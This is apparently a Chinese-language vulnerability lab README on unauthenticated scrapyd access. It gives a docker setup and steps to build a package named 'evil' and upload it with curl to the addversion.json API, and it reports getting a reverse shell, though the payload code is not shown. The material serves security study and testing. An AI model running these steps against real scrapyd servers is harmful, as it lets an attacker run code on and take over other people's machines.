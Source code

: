 # scrapyd 未授权访问漏洞

scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：<https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## 环境搭建

执行如下命令启动scrapyd服务：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:6800`即可看到Web界面。

## 漏洞复现

参考[攻击Scrapyd爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的scrapy包：

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# 编辑 evil/__init__.py, 加入恶意代码
scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹shell：

![](1.png)
